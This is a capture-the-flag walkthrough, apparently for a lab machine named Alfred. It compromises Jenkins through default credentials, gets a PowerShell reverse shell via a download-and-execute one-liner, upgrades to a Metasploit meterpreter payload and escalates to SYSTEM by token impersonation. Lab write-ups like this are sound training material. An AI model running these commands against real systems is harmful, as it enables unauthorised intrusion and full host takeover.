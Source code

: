 # Alfred

## Initial Access

Exploiting Jenkins,

Jenkins is a tool used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it.

First of all I am going to scan the machine, for this I only know that the machine does not respond to ping, and I only need TCP ports,

```bash
nmap -sT -Pn 10.10.207.2 

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-26 10:41 EST
Nmap scan report for 10.10.207.2
Host is up (0.058s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 5.65 seconds
```

This is the output.

- Port 80 is hosting a site, which tells me important informations:
    
    ![Untitled](Alfred%20ebebc7814aa2443aac5154421745f1d8/Untitled.png)
    

I got a possible username and password: Bruce Wayne

And an email: alfred@wayneenterprises.com

But that’s it for now.

Port 8080 is where Jenkins is hosted.

Upon entering the page, there is a login portal, after trying “Bruce Wayne” and several other password, I am reminded that this is in the description of the room:

“common misconfiguration on a widely used automation server”

So i tried admin:admin, which worked.

Now I got control over Jenkins!

The first thing to do is searching for some type of tool that I can use to get a reverse shell:

First I tried with the script console.

But it didn’t work because it can’t download the script like that, so I found a configure page under the project.

![Untitled](Alfred%20ebebc7814aa2443aac5154421745f1d8/Untitled%201.png)

Because it has RDP open we can assume that the machine is running Windows.

I am going to use this script: “https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1”

Which I downloaded in my machine, after that I started a python server: (this will be started in the same directory as the script, that’s because jenkins will download the script thanks to the python server)

```bash
python3 -m http.server 8000
```

Then I start a listener: 

```bash
nc -lvnp 4444
```

And then used this script in the script console:

```bash
*powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-python-server-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.18.20.116 -Port 4444*
```

After that I build the config we got a shell!

```bash
nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.207.2] 49236
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>
```

We can see that we are the user alfred\bruce

```bash
PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
```

Now I need the user flag, which I found in the user Desktop:

PS C:\Users\bruce\Desktop> ls

```bash
PS C:\Users\bruce\Desktop> ls

Directory: C:\\Users\\bruce\\Desktop

Mode                LastWriteTime     Length Name

a--- 10/25/2019 11:22 PM 32 user.txt
```

Now, I am going to switch this scuffed revshell in an imrpoved version, we can do this using the meterpreter shell.

## Upgrading the shell

Leave your previous connection **OPEN**.

We create our payload:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.20.116 LPORT=4555 -f exe -o revshellps1.exe`

After creating this payload, download it to the machine using the same method in the previous step:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.18.20.116:8000/revshellps1.exe','revshellps1.exe')"`

Now that we have done that, we need to use Metasploit:

```bash
**use exploit/multi/handler**
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST Your_Machine_IP
LHOST => 10.18.20.116

msf6 exploit(multi/handler) > set LPORT Your_Port(Same as the one you used for creating the payload)
LPORT => 4555
msf6 exploit(multi/handler) > run
```

Once we run, we nee to go in our previous connection(The one we created with nc) and start the process:

```bash
Start-Process "shell-name.exe”
```

You will find the shell under: `C:\Program Files (x86)\Jenkins\workspace\project`

Now that we have a stable shell, we can try to gain major privileges!

## Privilege Escalation

First thing we do is:

`whoami /priv`

With this we can see all the Enabled privileges

(SeDebugPrivilege, SeImpersonatePrivilege) Those are the one that we find interessing.

Then we check for the available tokens:

`impersonate_token`

And we can see the BUILTIN\Administrators token available

So we try to impersonate the token:

```bash
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user **NT AUTHORITY\SYSTEM**
```

Even though you have a higher privileged token, you may not have the permissions of a privileged user.

To go around that we can migrate to a process with the correct privileges.

First we use `ps` to view the processes, then we grab the PID of services.exe, which we pick because is it normally a ssafe option.

and we migrate to that PID:

```bash
migrate PID-OF-PROCESS
```

Now we should have full SYSTEM privileges!